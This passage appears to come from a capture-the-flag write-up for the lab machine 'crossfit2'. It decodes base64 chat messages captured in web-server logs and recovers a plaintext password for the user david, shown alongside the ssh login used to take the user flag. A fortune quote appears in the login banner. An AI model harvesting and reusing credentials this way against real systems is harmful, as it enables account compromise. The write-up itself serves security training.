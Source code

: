 ```php
[Thu Aug 12 07:52:27 2021] 10.129.68.20:19695 [404]: GET /privat?b64=eyJzZW5kZXJfaWQiOjE1LCJjb250ZW50IjoiRG8geW91IGtub3cgaG93IGdvb2dsZSBtYXBzIGNhbGN1bGF0ZXMgdHJhZmZpYz8iLCJyb29tSWQiOjE1LCJfaWQiOjI1MDd9 - No such file or directory
[Thu Aug 12 07:52:27 2021] 10.129.68.20:19695 Closing
[Thu Aug 12 07:52:27 2021] 10.129.68.20:17334 Accepted
[Thu Aug 12 07:52:27 2021] 10.129.68.20:17334 [404]: GET /global?b64=eyJzZW5kZXJfaWQiOjEyLCJjb250ZW50IjoiR29vZCBNb3JuaW5nISBIb3cgYXJlIHlvdSB0b2RheT8iLCJyb29tSWQiOiJnbG9iYWwiLCJfaWQiOjI1MDgsInVzZXJuYW1lIjoiQm9yaXMifQ== - No such file or directory
[Thu Aug 12 07:52:27 2021] 10.129.68.20:17334 Closing
```

Decoding them, one contains the password for the user david in a private message.

```
$ echo -n eyJzZW5kZXJfaWQiOjIsImNvbnRlbnQiOiJIZWxsbyBEYXZpZCwgSSd2ZSBhZGRlZCBhIHVzZXIgYWNjb3VudCBmb3IgeW91IHdpdGggdGhlIHBhc3N3b3JkIGBOV0JGY1NlM3dzNFZEaFRCYC4iLCJyb29tSWQiOjIsIl9pZCI6MjUwM30= | base64 -d
{"sender_id":2,"content":"Hello David, I've added a user account for you with the password `NWBFcSe3ws4VDhTB`.","roomId":2,"_id":2503}
```

We are now able to log in as david over ssh and grab the user flag.

```php
$ ssh david@crossfit.htb
Warning: Permanently added the ECDSA host key for IP address '10.129.68.20' to the list of known hosts.
david@crossfit.htb's password: 
OpenBSD 6.8 (GENERIC.MP) #4: Mon Jan 11 10:35:56 MST 2021

Welcome to OpenBSD: The proactively secure Unix-like operating system.

Please use the sendbug(1) utility to report bugs in the system.
Before reporting a bug, please try to reproduce it with the latest
version of the code.  With bug reports, please try to ensure that
enough information to reproduce the problem is enclosed, and if a
known fix for it exists, include that as well.

Besides the device, the box should contain:

* Eight little rectangular snippets of paper that say "WARNING"

* A plastic packet containing four 5/17 inch pilfer grommets and two
  club-ended 6/93 inch boxcar prawns.

YOU WILL NEED TO SUPPLY: a matrix wrench and 60,000 feet of tram
cable.

IF ANYTHING IS DAMAGED OR MISSING: You IMMEDIATELY should turn to your
spouse and say: "Margaret, you know why this country can't make a car
that can get all the way through the drive-through at Burger King
without a major transmission overhaul?  Because nobody cares, that's
why."

WARNING: This is assuming your spouse's name is Margaret.
                -- Dave Barry, "Read This First!"
crossfit2:david {1} wc -c user.txt
      33 user.txt
```
